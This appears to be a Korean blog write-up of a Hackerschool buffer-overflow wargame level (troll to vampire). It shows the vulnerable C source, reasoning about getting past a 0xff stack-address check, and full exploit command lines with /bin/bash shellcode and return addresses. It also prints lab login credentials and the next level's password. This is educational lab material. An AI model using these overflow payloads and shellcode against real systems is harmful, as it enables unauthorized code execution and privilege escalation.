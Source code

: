 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL9 (troll -> vampire) : check 0xbfff"
date: 2015-11-13 22:30
comments: true
categories:  wargame
tags: [bof]
---
```


- id = troll 
- pw = aspirin

<!--more-->

## 1. 문제 : vampire.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
} 
```

### 1.1 변경 사항

이번에 추가된 제약사항은 `LR` 값이 현재 stack 위치이므로 `0xbfff----` 이므로 항상 `0xbf` `0xff` 값이 들어가게 되는데, 이때 `0xff` 값을 넣지 못하는 제약사항이다.

```c
        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }
```

## 2. 공격 방법 고민

현재 stack 이 `0xbfff----` 부근에 설정이 되고 있어서 `$LR` 값이 `0xbfff----` 로 설정이 되는데, 이 값을 사용 할 수 없다면 ?

### 2.1 LR 값을 수정

실제 값은 `0xbf`, `0xff` 를 사용하지만 다른 값을 넣은 다음에 shellcode 에서 이 값을 수정해서 `0xff` 가 되도록 한다 ? 가능할 수도 있겠지만 아직 shellcode 를 마음대로 작성할 수준은 안 되서 일단 패스…

### 2.2 Stack 이 0xbfff 가 아닌 곳에 잡히도록 설정

이전 문제 경험에 의하면 함수가 실행되기 위해서는 argument pararameter passing 을 위하여 이 값이 main function 아래에 stack 에 잡히게 된다. 이 argument에 매우 긴 값을 넣으며 그만큼 stack 은 위에 잡히게 되어 `0xbfff` 가 아니라 그 위 주소에 설정되도록 할 수 있지 않을까 ?

#### 2.2.1 NOP 50개 ==> 0xbffffdd8

```bash
`python -c 'print "A"*44 + "\x94\xfb\xf0\xbf"'`  `python -c 'print "\x90"*50 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
```

#### 2.2.2 NOP 350개 ==> 0xbffffcac

```bash
`python -c 'print "A"*44 + "\x94\xfb\xf0\xbf"'`  `python -c 'print "\x90"*350 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
```

`argv[2]` 에 NOP 를 300개 추가하자 stack 위치가 정확하게 300bytes 만큼 올라가서 잡힌다. :)

## 3. 공격

argument 에 긴 값을 넣어서 stack 이 `0xbfff----` 위에 잡힐 수 있도록 공격을 해보자.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage9-1.png)
![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage9-3.png)

NOP 중에서 `0xbffe7648`을 `LR` 로 이용하여 공격.

```bash
./vampire `python -c 'print "A"*44 + "\x48\x76\xfe\xbf"'`  `python -c 'print "\x90"*350 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "A"*100000'`                                                                      
bash: /home/troll/.bashrc: Permission denied

bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
```

## 4. 다음 단계 정보

실제 exploit 을 위해서는 명령실행환경에서의 `agv[0]`의 위치를 정확하게 알아야 한다. 

```bash
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)

bash$ my-pass
euid = 509
music world
```